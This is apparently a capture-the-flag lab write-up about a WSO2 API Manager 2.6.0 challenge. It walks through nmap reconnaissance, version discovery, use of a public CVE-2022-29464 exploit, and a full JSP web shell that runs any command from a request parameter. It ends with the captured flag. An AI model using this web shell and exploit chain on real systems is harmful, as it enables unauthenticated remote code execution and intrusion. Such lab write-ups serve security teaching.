

---

Name: WSO
Difficulty: Medium
URL: http://141.85.224.106:9443/
Lab: SSS - lab 10

---

```bash
$ nmap 141.85.224.106 -p 9443 -sC -sV
Starting Nmap 7.92 ( https://nmap.org ) at 2026-07-23 19:02 EEST
Nmap scan report for 141.85.224.106
Host is up (0.018s latency).

PORT     STATE SERVICE             VERSION
9443/tcp open  ssl/tungsten-https?
| ssl-cert: Subject: commonName=localhost/organizationName=WSO2/stateOrProvinceName=CA/countryName=US
| Not valid before: 2017-07-19T06:52:51
|_Not valid after:  2027-07-17T06:52:51
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.40 seconds
```

Searching through files reveals the version
```bash
$ curl -k -s "https://141.85.224.106:9443/carbon/product/about.html" | grep -i -E "version|carbon|wso2"
    WSO2 API Manager 2.6.0 is developed on top of the revolutionary
```

Looking for this version on the internet we find this [exploit](https://github.com/hakivvi/CVE-2022-29464/blob/main/exploit.py) 

```js
<%@ page import="java.io.*" %>
<%
 String cmd = request.getParameter("cmd");
 String output = "";
 if (cmd != null) {
   try {
     Process p = Runtime.getRuntime().exec(cmd);
     BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
     String line;
     while ((line = reader.readLine()) != null) {
       output += line + "\n";
     }
   } catch (Exception e) {
     output = "Error: " + e.getMessage();
   }
 }
%>
<pre><%= output %></pre>
```

```bash
$  python3 2.py https://141.85.224.106:9443/ shell.jsp
shell @ https://141.85.224.106:9443//authenticationendpoint/shell.jsp
```

Now we can run commands and read the file



{ws02_1s_4_h3ll_0f_4_fr4m3w0rk}

